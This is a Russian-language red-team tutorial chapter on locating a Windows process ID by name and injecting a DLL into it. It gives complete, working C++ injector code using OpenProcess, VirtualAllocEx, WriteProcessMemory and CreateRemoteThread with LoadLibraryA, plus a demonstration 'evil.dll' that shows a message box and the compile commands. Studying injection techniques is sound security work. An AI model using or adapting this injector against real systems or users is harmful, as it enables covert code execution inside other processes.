\newpage
\subsection{7. найти идентификатор процесса по имени и выполнить инъекцию. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}

Когда я писал свой инжектор, мне стало интересно, как, например, найти процессы по имени?   

При написании кода или DLL-инъекторов было бы полезно найти, например, все процессы, работающие в системе, и попробовать выполнить инъекцию в процесс, запущенный от имени администратора.

В этом разделе я попробую сначала решить самую простую задачу: найти идентификатор процесса по его имени.

К счастью, в Win32 API есть несколько удобных функций для этого.

Давайте напишем код:
```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID

  pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }
  return 0;
}
```

Давайте разберем наш код.   
Сначала мы получаем имя процесса из аргументов. Затем находим идентификатор процесса по имени и выводим его:

{width="80%"}

Чтобы найти PID, мы вызываем функцию `findMyProc`, которая принимает имя процесса, в который мы хотим выполнить инъекцию, ищет его в памяти операционной системы и, если он существует и запущен, возвращает идентификатор этого процесса:

{width="80%"}

Я добавил комментарии в код, так что у вас не должно возникнуть много вопросов.   
Сначала мы получаем "снимок" текущих выполняемых процессов в системе, используя [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot):    

{width="80%"}

Затем мы проходим по списку процессов, записанных в "снимке", используя [Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) и [Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next):

{width="80%"}

Если мы находим процесс, имя которого совпадает с `procname`, функция возвращает его идентификатор.   

Как я писал ранее, для простоты мы просто выводим этот PID.   

Теперь давайте скомпилируем наш код:

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe \
-lws2_32 -s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
{width="80%"}

Теперь запускаем его на машине с Windows (в моем случае Windows 7 x64):

```powershell
.\hack.exe mspaint.exe
```
{width="80%"}

Как видите, все работает отлично.    

Теперь, если мы подумаем, как специалист Red Team, мы можем написать более интересный инъектор, который, например, найдет процесс по имени и внедрит в него наш полезный код.   

Поехали!    
Для простоты я возьму свой инъектор из одного из моих [постов](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) и просто добавлю в него функцию `findMyProc`:

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Скомпилируем наш `hack2.cpp`:
```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

{width="80%"}

"Зловредная" DLL остается той же:    
```cpp
/*
evil.cpp
простая DLL для DLL-инъекции в процесс
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Компилируем и помещаем в выбранную директорию:   
```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

Запуск:
```cmd
.\hack2.exe mspaint.exe
```
{width="80%"}

Как видите, все работает:
Мы запускаем `mspaint.exe`, и наш простой инъектор находит его PID **(1)**   
Наша DLL с простым всплывающим окном (Meow) срабатывает! **(2)**    

Чтобы проверить, действительно ли наша DLL была внедрена в процесс `mspaint.exe`, можно использовать Process Hacker, в разделе памяти видно:   
{width="80%"}

Похоже, наша простая логика инъекции сработала!    

В этом случае я не проверял, включена ли привилегия `SeDebugPrivilege` в моем процессе. И как мне получить эти привилегии??? Мне нужно изучить этот вопрос со всеми нюансами в будущем.

[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)          
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)         
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)       
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)         
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)         
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)         
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[исходный код на Github](https://github.com/cocomelonc/2021-09-29-processfind-1)
